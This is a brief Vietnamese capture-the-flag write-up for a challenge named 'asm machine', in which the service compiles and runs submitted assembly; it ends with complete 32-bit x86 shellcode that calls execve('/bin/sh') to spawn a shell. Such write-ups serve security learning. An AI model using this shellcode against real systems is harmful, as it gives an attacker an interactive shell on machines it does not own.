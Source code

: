 -------

## asm machine




bài cuối cùng khá hack não , nói chung là như 1 bài shellcode nhưng nó sẽ complie và run giùm ta , lúc đầu mình cứ tưởng là sẽ dùng kĩ thuật egghunter để đọc flag ở đâu đó trong bài nên khá loay hoay :v , chợt một lúc sau mình mới nhận ra là nó chỉ chạy đoạn mã asm đó cho ta 
![image](https://hackmd.io/_uploads/SJsqRUZDkx.png)



- vậy ta chỉ cần thực thi shellcode execve('/bin/sh') thôi là được

![image](https://hackmd.io/_uploads/HJCByD-vkx.png)


![image](https://hackmd.io/_uploads/SyA8kvbPkx.png)

```c
section .text
    global _start

_start:

    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx


    mov al, 11
    int 0x80
end
```